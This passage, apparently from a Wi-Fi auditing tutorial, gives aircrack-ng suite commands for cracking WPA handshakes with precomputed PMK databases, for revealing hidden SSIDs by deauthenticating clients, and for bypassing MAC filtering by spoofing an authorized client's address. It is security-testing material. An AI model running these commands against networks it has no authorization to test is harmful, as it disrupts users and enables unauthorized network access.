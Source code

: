     ```bash
    # sudo airolib-ng <your_db_name> --import essid <file_with_ESSIDs_one_per_line>
    # sudo airolib-ng <your_db_name> --import passwd <path_to_wordlist>
    # sudo airolib-ng <your_db_name> --batch # Compute PMKs
    # sudo aircrack-ng -r <your_db_name> <capture_handshake.cap>
    ```

---

## Step 6: Other Auditing Techniques

### Finding Hidden SSIDs

```bash
# 1. Start airodump-ng on the monitor interface:
#    sudo airodump-ng wlan0mon
#    Look for networks with no ESSID but with active clients or high beacon counts. Note their BSSID and channel.
#
# 2. If a client is connected to the hidden network, you can deauthenticate it to force it to re-probe:
#    (Ensure airodump-ng is running in another terminal, focused on the BSSID and channel of the hidden network)
#    sudo aireplay-ng -0 5 -a <BSSID_of_hidden_AP> -c <client_MAC_connected_to_it> wlan0mon
#    Watch the airodump-ng output for the ESSID to appear.
```

### Bypassing MAC Filtering

```bash
# 1. Identify an authorized client's MAC address using `airodump-ng` while it's connected to the target AP.
#    (Let's say the authorized client MAC is AA:BB:CC:11:22:33)
#
# 2. Stop monitor mode on your interface if it's running, or use a different interface.
#    sudo airmon-ng stop wlan0mon
#    sudo ifconfig wlan0 down # Bring the physical interface down
#
# 3. Change your wireless card's MAC address to the authorized client's MAC:
#    sudo macchanger --mac AA:BB:CC:11:22:33 wlan0
#
# 4. Bring your interface back up:
#    sudo ifconfig wlan0 up
#    You should now be able to connect to the network as if you were the authorized client.
#
# 5. To revert to your original MAC:
#    sudo ifconfig wlan0 down
#    sudo macchanger -p wlan0 # -p for permanent (original) MAC
#    sudo ifconfig wlan0 up
```
